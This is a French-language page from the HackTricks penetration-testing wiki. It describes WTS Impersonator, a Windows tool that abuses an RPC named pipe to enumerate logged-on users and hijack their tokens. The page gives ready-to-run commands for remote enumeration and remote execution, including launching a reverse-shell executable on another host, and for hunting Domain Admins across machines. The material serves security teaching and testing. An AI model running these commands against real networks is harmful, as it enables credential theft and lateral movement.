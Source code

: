 {{#include ../../banners/hacktricks-training.md}}

L'outil **WTS Impersonator** exploite le **"\\pipe\LSM_API_service"** RPC Named pipe pour énumérer discrètement les utilisateurs connectés et détourner leurs jetons, contournant les techniques traditionnelles d'imitation de jetons. Cette approche facilite des mouvements latéraux sans heurts au sein des réseaux. L'innovation derrière cette technique est attribuée à **Omri Baso, dont le travail est accessible sur [GitHub](https://github.com/OmriBaso/WTSImpersonator)**.

### Fonctionnalité Principale

L'outil fonctionne à travers une séquence d'appels API :
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### Modules Clés et Utilisation

- **Énumération des Utilisateurs** : L'énumération des utilisateurs locaux et distants est possible avec l'outil, en utilisant des commandes pour chaque scénario :

- Localement :
```powershell
.\WTSImpersonator.exe -m enum
```
- À distance, en spécifiant une adresse IP ou un nom d'hôte :
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **Exécution de Commandes** : Les modules `exec` et `exec-remote` nécessitent un contexte de **Service** pour fonctionner. L'exécution locale nécessite simplement l'exécutable WTSImpersonator et une commande :

- Exemple d'exécution de commande locale :
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe peut être utilisé pour obtenir un contexte de service :
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **Exécution de Commandes à Distance** : Implique la création et l'installation d'un service à distance similaire à PsExec.exe, permettant l'exécution avec les permissions appropriées.

- Exemple d'exécution à distance :
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **Module de Chasse aux Utilisateurs** : Cible des utilisateurs spécifiques sur plusieurs machines, exécutant du code sous leurs identifiants. Cela est particulièrement utile pour cibler les Domain Admins ayant des droits d'administrateur local sur plusieurs systèmes.
- Exemple d'utilisation :
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}

